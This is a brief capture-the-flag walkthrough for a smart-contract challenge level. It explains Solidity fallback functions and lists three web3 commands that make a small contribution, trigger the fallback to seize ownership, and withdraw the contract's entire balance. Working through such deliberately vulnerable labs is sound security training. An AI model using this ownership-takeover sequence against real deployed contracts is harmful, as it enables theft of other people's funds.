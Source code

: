 We want to : have at least 1 contribution, send ether to the fallback function in order to become the owner and finally withdraw everything !

Fallback function :
-   They are unnamed functions.
-   They cannot accept arguments.
-   They cannot return anything.
-   There can be only one fallback function in a smart contract.
-   It is compulsory to mark it external.
-   It should be marked as _payable_. If not, the contract will throw an exception if it receives ether without any data.
-   It is limited to 2300 gas if invoked by other functions.

1. First contribution < 0.001 ether : `contract.contribute.sendTransaction({from:player,to:instance , value:web3.utils.toWei('0.0005','ether')})`
2. Trigger the fallback function (sending directly to the contract) : `contract.sendTransaction({from:player,to:instance , value:web3.utils.toWei('0.0005','ether')})`
3. Withdraw the funds : `contract.withdraw()`